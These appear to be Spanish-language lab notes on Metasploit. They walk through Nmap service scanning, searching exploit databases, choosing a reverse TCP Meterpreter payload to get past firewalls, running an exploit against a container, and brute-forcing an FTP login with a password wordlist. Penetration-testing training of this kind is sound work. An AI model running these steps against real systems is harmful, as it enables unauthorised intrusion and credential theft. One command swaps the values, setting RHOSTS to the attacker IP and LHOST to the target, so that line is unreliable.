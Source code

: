 ### Encontrar un exploit que vayamos a usar
- Primero realizaremos un escaneo con **Nmap** independiente o bien con el nmap integrado de **metasploit**. El objetivo es buscar exploits aplicables a los servicios y sus versiones concretas encontrados en la base de datos de **Metasploit**. Esta base de datos se puede consultar aquí: https://www.rapid7.com/db/?type=metasploit. También puedes agregar exploits de **searchsploit** a MSF.
- Para usar nmap de Metasploit: `db_nmap -sV <ip>`
- Una vez tengas los servicios y versiones, busca en la base de datos CVE (http://www.cvedetails.com/) los exploits disponibles para los servicios que encontraste
- Localizar más exploits en: http://www.exploit-db.com/
- Ahora buscamos el exploit en Metasploit con: `search <palabras clave>`
![](Pasted%20image%2020230601115634.png)
![](Pasted%20image%2020230601120514.png)

### Ejecución de un exploit
- Una vez que lo hemos encontrado, usaremos el siguiente comando: `use <exploit> - set payload <payload> - show options - set options <...> - exploit`
- Para este caso concreto, necesitaremos configurar los parámetros del exploit:
	- Payload:
		- Consulta los payloads disponibles para un exploit con `show payloads`
		- Como hay muchas opciones disponibles y nosotros queremos una conexión TCP inversa para evitar firewalls, restringimos la búsqueda con: `search payload/linux -t reverse`
		- Una vez aquí debemos elegir el nombre completo del payload a aplicar. Para decidir cuál usar:
			- Tenemos un sistema de destino Linux
			- Vamos a usar una conexión TCP inversa (reverse shell)
			- Necesitamos elegir entre un Meterpreter o un shell estándar (mejor probar Meterpreter)
			- Se trata de una arquitectura x64
			- Luego podemos elegir entre un **Stager** o un payload inline (**stageless**). (en Docker el segundo funciona mejor)
			- Elige el payload que cumpla con estas condiciones con: `set payload <nombre>`![](Pasted%20image%2020230601120455.png)![](Pasted%20image%2020230601120651.png)
	- Resto de parámetros:
		- Una vez elegido el payload, consulta la información detallada del exploit con `info <nombre_exploit>` para ver sus opciones y resto de los parámetros
		- **NOTA**: también se puede usar el comando `options` y verlo manualmente ![](Pasted%20image%2020230601120926.png)
		- Vemos que nos falta por configurar: RHOSTS y LHOST. Los configuramos y ejecutamos el exploit con: `set RHOSTS <IP_ATTACKER>` Y `set LHOST <IP_OBJETIVO>` ![](Pasted%20image%2020230601121150.png)
- Lamentablemente, parece no ser vulnerable :(
![](Pasted%20image%2020230601121745.png)

### Uso de módulos auxiliares de MSF
- Vamos a hacer fuerza bruta a un servidor FTP presente en el contenedor de Ubuntu.
- Para ello:
	- El módulo auxiliar se denomina `ftp_login`
	- Lo usamos: `use <nombre>` ![](Pasted%20image%2020230601122121.png)
	- Da permisos de lectura para todos al archivo `/wordlist/2020mostcommon.txt`
	- Establece las opciones adecuadas para lanzar el exploit ![](Pasted%20image%2020230601122600.png) ![](Pasted%20image%2020230601122722.png)
